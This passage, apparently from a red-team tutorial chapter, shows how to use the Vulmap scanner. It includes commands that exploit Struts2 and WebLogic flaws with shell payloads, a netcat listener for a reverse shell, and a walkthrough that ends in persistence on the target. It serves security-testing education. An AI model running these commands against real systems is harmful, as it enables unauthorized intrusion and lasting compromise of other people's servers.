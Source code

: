 ### Exploitation Mode

```bash
# Exploit a vulnerability
python3 vulmap.py -u http://example.com --exploit

# Generate shell payload
python3 vulmap.py -u http://example.com -m struts2 -e s2-057 --shell
```

### Example: Web Application Vulnerability Scanning

During a web application assessment, we used Vulmap to identify and exploit critical vulnerabilities:

1. **Initial Reconnaissance**:
   ```bash
   # Perform initial scan of the web application
   python3 vulmap.py -u https://target-webapp.com -v
   
   # Focus on specific technologies based on initial findings
   python3 vulmap.py -u https://target-webapp.com -m jboss,weblogic,drupal
   ```

2. **Vulnerability Verification**:
   - Analyzed Vulmap's findings to identify true positives
   - Prioritized vulnerabilities with public exploits
   - Verified findings with manual testing

3. **Exploitation**:
   ```bash
   # Exploit WebLogic vulnerability discovered by Vulmap
   python3 vulmap.py -u https://target-webapp.com -m weblogic -e cve-2020-14882 --shell
   
   # Set up listener to receive reverse shell
   nc -lvnp 9001
   ```

4. **Post-Exploitation**:
   - Used initial access to enumerate internal systems
   - Deployed additional scanning tools on the compromised system
   - Established persistence within the target environment

This example shows how Vulmap can streamline the process from vulnerability discovery to exploitation, serving as both a scanning and attack tool.

## Conclusion

Automated vulnerability scanning tools are essential components of a red team's arsenal, providing systematic discovery of security weaknesses across complex environments. While these tools dramatically increase efficiency, their true value comes from the operator's ability to interpret results, prioritize findings, and leverage discovered vulnerabilities for controlled exploitation.

The most effective red team operations combine automated scanning with manual verification and exploitation, using tools like OpenVAS, Nessus, Nexpose, and Lynis to guide their efforts toward the most promising attack vectors. By mastering the tools covered in this chapter, red team operators can efficiently identify security weaknesses and demonstrate their real-world impact through controlled exploitation.

In the next chapter, we'll explore web application vulnerability scanning tools that provide deeper insight into web-specific security issues, complementing the network-focused tools covered here.